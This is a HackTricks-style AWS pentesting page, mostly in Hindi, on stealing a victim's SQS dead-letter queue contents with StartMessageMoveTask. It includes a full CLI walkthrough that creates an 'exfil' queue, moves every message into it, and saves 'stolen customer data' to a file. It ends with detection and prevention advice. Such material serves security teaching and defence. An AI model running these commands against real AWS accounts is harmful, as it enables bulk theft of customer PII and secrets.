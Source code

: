 # AWS – SQS DLQ Redrive Exfiltration via StartMessageMoveTask

{{#include ../../../../banners/hacktricks-training.md}}

## विवरण

SQS message move tasks का दुरुपयोग करके एक victim की Dead-Letter Queue (DLQ) में जमा सभी संदेशों को `sqs:StartMessageMoveTask` का उपयोग करते हुए attacker-controlled queue पर redirect करके चुराना। यह तकनीक AWS के वैध message recovery फीचर को एक्सप्लॉइट करती है ताकि समय के साथ DLQs में जमा संवेदनशील डेटा को exfiltrate किया जा सके।

## Dead-Letter Queue (DLQ) क्या है?

Dead-Letter Queue एक विशेष SQS queue है जहाँ संदेश स्वतः भेज दिए जाते हैं जब मुख्य एप्लिकेशन द्वारा उन्हें सफलतापूर्वक प्रोसेस नहीं किया जा सकता। ये असफल संदेश अक्सर निम्नलिखित होते हैं:
- प्रोसेस न हो सकने वाला संवेदनशील application data
- Error details और debugging जानकारी
- Personal Identifiable Information (PII)
- API tokens, credentials, या अन्य secrets
- बिजनेस-क्रिटिकल transaction data

DLQs असफल संदेशों के लिए एक "graveyard" की तरह काम करते हैं, इसलिए ये मूल्यवान लक्ष्य होते हैं क्योंकि समय के साथ इनमें उन संवेदनशील डेटा का संचय होता है जिन्हें एप्लिकेशन सही तरीके से हैंडल नहीं कर पाया।

## हमला परिदृश्य

**Real-world example:**
1. **E-commerce application** SQS के माध्यम से customer orders को प्रोसेस करती है
2. **Some orders fail** (payment issues, inventory problems, आदि) और उन्हें DLQ में भेज दिया जाता है
3. **DLQ accumulates** सप्ताहों/महीनों के असफल ऑर्डर जिनमें ग्राहक डेटा होता है: `{"customerId": "12345", "creditCard": "4111-1111-1111-1111", "orderTotal": "$500"}`
4. **Attacker gains access** AWS credentials के साथ जिनमें SQS permissions हैं
5. **Attacker discovers** कि DLQ में हजारों असफल ऑर्डर हैं जिनमें संवेदनशील डेटा मौजूद है
6. **Instead of trying to access individual messages** (धीमा और स्पष्ट), attacker `StartMessageMoveTask` का उपयोग करके सभी संदेशों को bulk में अपनी queue पर ट्रांसफर कर देता है
7. **Attacker extracts** एक ही ऑपरेशन में सभी ऐतिहासिक संवेदनशील डेटा

## आवश्यकताएँ
- स्रोत queue को किसी न किसी queue के RedrivePolicy द्वारा DLQ के रूप में कॉन्फ़िगर किया गया होना चाहिए।
- IAM permissions (compromised victim principal के रूप में चलाते समय):
- On DLQ (source): `sqs:StartMessageMoveTask`, `sqs:GetQueueAttributes`.
- On destination queue: messages deliver करने की permission (उदा., queue policy जो victim principal से `sqs:SendMessage` की अनुमति देती हो)। same-account destination के लिए यह आमतौर पर डिफ़ॉल्ट रूप से allowed होता है।
- यदि SSE-KMS enabled है: source CMK पर `kms:Decrypt`, और destination CMK पर `kms:GenerateDataKey`, `kms:Encrypt` चाहिए।

## प्रभाव
**Potential Impact**: DLQs में जमा संवेदनशील payloads (failed events, PII, tokens, application payloads) को native SQS APIs का उपयोग करके उच्च गति पर exfiltrate किया जा सकता है। यदि destination queue policy victim principal से `SendMessage` की अनुमति देती है तो यह cross-account भी काम करता है।

## दुरुपयोग कैसे करें

- victim DLQ ARN पहचानें और सुनिश्चित करें कि यह वास्तव में किसी queue द्वारा DLQ के रूप में referenced है (कोई भी queue चलेगा)।
- एक attacker-controlled destination queue बनाएं या चुनें और उसका ARN प्राप्त करें।
- victim DLQ से अपनी destination queue तक संदेश move करने के लिए एक message move task शुरू करें।
- प्रोग्रेस मॉनिटर करें या जरूरत पड़ने पर task को cancel करें।

### CLI Example: Exfiltrating Customer Data from E-commerce DLQ

**Scenario**: An attacker has compromised AWS credentials and discovered that an e-commerce application uses SQS with a DLQ containing failed customer order processing attempts.

1) **Discover and examine the victim DLQ**
```bash
# List queues to find DLQs (look for names containing 'dlq', 'dead', 'failed', etc.)
aws sqs list-queues --queue-name-prefix dlq

# Let's say we found: https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq
VICTIM_DLQ_URL="https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq"
SRC_ARN=$(aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Check how many messages are in the DLQ (potential treasure trove!)
aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" \
--attribute-names ApproximateNumberOfMessages
# Output might show: "ApproximateNumberOfMessages": "1847"
```
2) **हमलावर-नियंत्रित गंतव्य कतार बनाएं**
```bash
# Create our exfiltration queue
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name hacker-exfil-$(date +%s) --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

echo "Created exfiltration queue: $ATTACKER_Q_ARN"
```
3) **थोक संदेश चोरी निष्पादित करें**
```bash
# Start moving ALL messages from victim DLQ to our queue
# This operation will transfer thousands of failed orders containing customer data
echo "Starting bulk exfiltration of $SRC_ARN to $ATTACKER_Q_ARN"
TASK_RESPONSE=$(aws sqs start-message-move-task \
--source-arn "$SRC_ARN" \
--destination-arn "$ATTACKER_Q_ARN" \
--max-number-of-messages-per-second 100)

echo "Move task started: $TASK_RESPONSE"

# Monitor the theft progress
aws sqs list-message-move-tasks --source-arn "$SRC_ARN" --max-results 10
```
4) **चोरी किए गए संवेदनशील डेटा को एकत्र करें**
```bash
# Receive the exfiltrated customer data
echo "Receiving stolen customer data..."
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--attribute-names All --message-attribute-names All \
--max-number-of-messages 10 --wait-time-seconds 5

# Example of what an attacker might see:
# {
#   "Body": "{\"customerId\":\"cust_12345\",\"email\":\"john@example.com\",\"creditCard\":\"4111-1111-1111-1111\",\"orderTotal\":\"$299.99\",\"failureReason\":\"Payment declined\"}",
#   "MessageId": "12345-abcd-6789-efgh"
# }

# Continue receiving all messages in batches
while true; do
MESSAGES=$(aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--max-number-of-messages 10 --wait-time-seconds 2 --output json)

if [ "$(echo "$MESSAGES" | jq '.Messages | length')" -eq 0 ]; then
echo "No more messages - exfiltration complete!"
break
fi

echo "Received batch of stolen data..."
# Process/save the stolen customer data
echo "$MESSAGES" >> stolen_customer_data.json
done
```
### क्रॉस-एकाउंट नोट्स
- गंतव्य queue में ऐसा resource policy होना चाहिए जो victim principal को `sqs:SendMessage` की अनुमति दे (और, यदि उपयोग किया गया हो, KMS grants/permissions)।

## यह हमला क्यों प्रभावी है

1. **Legitimate AWS Feature**: बिल्ट-इन AWS फ़ंक्शनैलिटी का उपयोग करता है, जिससे इसे दुर्भावनापूर्ण के रूप में पहचानना कठिन होता है
2. **Bulk Operation**: धीमे व्यक्तिगत एक्सेस की बजाय हजारों संदेशों को तेज़ी से स्थानांतरित करता है
3. **Historical Data**: DLQs हफ्तों/महीनों में संवेदनशील डेटा इकट्ठा कर लेते हैं
4. **Under the Radar**: कई संगठन DLQ एक्सेस की बारीकी से निगरानी नहीं करते
5. **Cross-Account Capable**: यदि permissions अनुमति देते हैं तो attacker के अपने AWS खाते में exfiltrate कर सकता है

## पता लगाना और रोकथाम

### पता लगाना
संदिग्ध `StartMessageMoveTask` API कॉल्स के लिए CloudTrail की निगरानी करें:
```json
{
"eventName": "StartMessageMoveTask",
"sourceIPAddress": "suspicious-ip",
"userIdentity": {
"type": "IAMUser",
"userName": "compromised-user"
},
"requestParameters": {
"sourceArn": "arn:aws:sqs:us-east-1:123456789012:sensitive-dlq",
"destinationArn": "arn:aws:sqs:us-east-1:attacker-account:exfil-queue"
}
}
```
### रोकथाम
1. **न्यूनतम विशेषाधिकार**: `sqs:StartMessageMoveTask` अनुमतियों को केवल आवश्यक भूमिकाओं तक सीमित करें
2. **DLQs की निगरानी**: असामान्य DLQ गतिविधि के लिए CloudWatch अलार्म सेट करें
3. **क्रॉस-एकाउंट नीतियाँ**: SQS queue नीतियों की सावधानीपूर्वक समीक्षा करें जो क्रॉस-एकाउंट एक्सेस की अनुमति देती हैं
4. **DLQs को एन्क्रिप्ट करें**: सीमित कुंजी नीतियों के साथ SSE-KMS का उपयोग करें
5. **नियमित क्लीनअप**: संवेदनशील डेटा को DLQs में अनिश्चित काल तक जमा न होने दें

{{#include ../../../../banners/hacktricks-training.md}}
